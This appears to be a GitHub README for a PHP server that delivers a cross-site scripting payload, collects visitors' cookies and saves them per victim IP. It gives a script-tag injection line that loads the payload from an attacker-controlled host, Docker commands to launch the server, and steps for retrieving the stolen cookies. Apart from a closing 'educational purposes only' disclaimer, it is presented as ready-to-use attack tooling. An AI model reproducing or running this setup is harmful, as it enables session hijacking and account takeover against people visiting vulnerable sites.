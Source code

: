 # XSS Server
A PHP web server that provides a payload delivered by XSS. Once the script is triggered, it steals the user's cookies (from the website the XSS was triggered on) and stores them in a file on the server.

You can deliver the payload with the following example exploit (change your exploitation of the XSS vulnerability - different servers try to mitigate XSS in different ways):
```
<script src="https://<attack_server_hostname>/payload.php"></script>
```
## Building and launching with Docker
```
$ docker build -t xss-server:1 .
$ docker run -d -p 80:80 --name xss-server xss-server:1
```
## Entering Server to obtain stolen cookies
```
$ docker exec -it xss-server bash
```
Files are stored in the format `<victim_ip>.cky` and contain the victim's cookies exactly as if running `console.log(document.cookies)`.

---
## Disclaimer
This server is for educational purposes only. I do not take responsibility for its unethical use against unauthorized targets.
